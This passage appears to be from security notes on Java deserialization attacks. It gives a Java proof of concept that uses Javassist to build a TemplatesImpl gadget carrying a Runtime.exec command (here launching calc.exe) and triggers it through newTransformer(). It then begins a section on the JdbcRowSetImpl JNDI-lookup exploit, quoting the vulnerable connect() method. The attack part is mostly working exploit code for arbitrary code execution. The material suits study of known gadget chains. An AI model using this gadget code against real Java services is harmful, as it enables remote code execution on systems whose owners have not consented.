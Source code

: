 #### Proof of Concept
```java
Class templatesImplCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");  
Class abstractTransletCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
Class factoryCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl");  
  
ClassPool classPool = ClassPool.getDefault();  
classPool.insertClassPath(new ClassClassPath(Gadgets.StubTransletPayload.class));  
  
CtClass clazz = classPool.get(Gadgets.StubTransletPayload.class.getName());  
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";  
clazz.makeClassInitializer().insertAfter(cmd);  
  
CtClass abstractTransletCtCls = classPool.get(abstractTransletCls.getName());  
clazz.setSuperclass(abstractTransletCtCls);  
String className = "payload" + System.nanoTime();  
clazz.setName(className);  
  
byte[] bytecode = clazz.toBytecode();

Object templates = templatesImplCls.newInstance();  
Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{bytecode, ClassFiles.classAsBytes(Gadgets.Foo.class)});  
Reflections.setFieldValue(templates, "_name", "xxx");  
Reflections.setFieldValue(templates, "_tfactory", factoryCls.newInstance());  
  
((TemplatesImpl) templates).newTransformer();
```

## JdbcRowSetImpl exploit


> [!NOTE] pre-requirements
> Reproduced on JDK1.8

The method `connect()` of `JdbcRowSetImpl` can look up the JNDI URL stored in `databaseMetaData` property.
```java
private Connection connect() throws SQLException {
	if(conn != null) {  
    return conn;  
  
	} else if (getDataSourceName() != null) {  
	   ...
		Context ctx = new InitialContext();  
		DataSource ds = (DataSource)ctx.lookup  
			(getDataSourceName());
	...
	}
...
}
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)